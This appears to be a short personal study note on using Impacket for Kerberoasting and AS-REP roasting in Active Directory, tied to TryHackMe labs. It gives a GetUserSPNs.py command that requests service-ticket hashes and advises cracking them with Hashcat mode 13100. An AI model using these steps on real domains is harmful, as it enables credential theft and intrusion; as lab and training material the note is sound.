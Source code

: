 # Using Impacket

author:: Nathan Acks  
date:: 2021-12-06

## Kerberoasting

Impacket can identify kerberoastable accounts and dump packets remotely. It comes standard with Kali Linux.

```bash
python3 \
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
${DOMAIN}/${USER}:${PASSWORD} \
-dc-ip $DOMAIN_CONTROLLER_IP -request
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

## AS-REP Roasting

Impacket (via GetNPUsers.py) support AS-REP roasting. However, GetNPUsers.py requires that user accounts already be enumerated and roastable accounts identified.

When using GetNPUsers.py, specify the target as `${DOMAIN}/` (i.e., leave off the user-part).

## References

* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Attacktive Directory](tryhackme-attacktive-directory.md)
* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)
